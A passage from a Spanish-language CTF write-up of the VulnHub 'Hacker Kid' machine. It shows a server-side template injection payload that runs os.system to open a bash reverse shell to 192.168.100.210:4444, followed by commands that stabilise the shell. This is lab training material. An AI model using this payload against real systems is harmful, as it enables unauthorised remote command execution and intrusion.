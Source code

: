 ![alt text](/assets/img/writeups/vulnhub/hacker-kid/image-15.png)

Ahora que tenemos una inyección SSTI podemos realizar RCE para obtener una shell reversa.

## Shell reversa

{% raw %}
```python
{% import os %}{{os.system('bash -c "bash -i >& /dev/tcp/192.168.100.210/4444 0>&1"')}}
```
{% endraw %}

Encodeamos el payload en URL antes de enviarlo a la aplicación.

![alt text](/assets/img/writeups/vulnhub/hacker-kid/image-16.png)

![alt text](/assets/img/writeups/vulnhub/hacker-kid/image-17.png)

Estabilizamos la shell y la hacemos interactiva.

```bash	
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
ENTER
export TERM=xterm
```

![alt text](/assets/img/writeups/vulnhub/hacker-kid/image-18.png)
